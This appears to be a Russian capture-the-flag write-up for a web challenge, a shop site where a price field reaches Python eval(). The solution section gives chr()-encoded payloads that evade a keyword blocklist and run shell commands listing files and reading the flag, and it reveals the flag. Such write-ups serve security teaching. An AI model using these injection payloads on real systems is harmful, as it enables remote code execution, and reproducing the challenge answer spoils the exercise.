







# ozi | medium | web  

## Информация  

> ozi — самый маленький стартап на свете. Говорят, его написал всего полчеловека!  
> Я не могу поверить, что он настолько идеально работает!  
> Ты только посмотри, как всё идеально! Ты только попробуй — купи у них что-нибудь.  
>  
> **per instance deploy**  
> http://<ip>:6664  

## Деплой  

Запускаем задачу на сервере с помощью следующей команды:  

```sh
cd deploy
sudo chmod +x deploy.sh
./deploy.sh
```  

## Выдать участникам  

Архив из директории [public/](public/) и IP:PORT per instance deploy.  

## Описание  

На сайте есть функция публикации своего товара. В форме ввода цены проверка выполняется на стороне фронтенда.  
Задача — перехватить запрос создания карточки товара и подменить цену на вредоносный пейлоад.  
Также присутствует блок-лист запрещённых слов: `['.read()', 'eval', 'os', 'system', 'exec']`.  

## Решение  

Зайдя на сайт, видим достаточно простой интерфейс:  



Пробуем добавить товар в корзину и смотрим, как он считает сумму:  



Далее пытаемся опубликовать свой товар. При вводе вредоносного пейлоада получаем ошибку.  
Смотрим на тип инпута:  

  

Обнаруживаем, что можно вводить только цифры. Перехватываем запрос через Burp и подменяем цену.  

Изучаем исходный код страницы и находим функцию подсчёта суммы корзины:  

  

Замечаем, что сначала идёт проверка на запрещённые слова, а затем формируется выражение, которое выполняется через `eval()`.  
Ищем список запрещённых слов в файле `ban_words.py`, изучаем его и видим, что можно обойти ограничения с помощью `chr()`, зашифровав наш пейлоад.  

Перехватываем запрос и вставляем следующий пейлоад:  

```python
eval("".join(chr(x) for x in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 39, 115, 117, 98, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 103, 101, 116, 111, 117, 116, 112, 117, 116, 40, 39, 108, 115, 39, 41]))
```

Этот код эквивалентен следующему:  

```python
__import__('subprocess').getoutput('ls')
```

Вставляем его:  

 

Видим, что добавился новый товар. Пробуем добавить его в корзину:  

 

Убеждаемся, что всё успешно работает, и получаем список файлов в директории. Теперь можем таким же образом прочитать флаг:  

```python
eval("".join(chr(x) for x in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 39, 115, 117, 98, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 103, 101, 116, 111, 117, 116, 112, 117, 116, 40, 39, 99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116, 39, 41]))  
```

Удаляем старый товар и добавляем новый в корзину:  

 

Получаем флаг!  

## Флаг  

`ozonctf{1s_reAl_g00d_Market_bAt_OZON_BEST}`

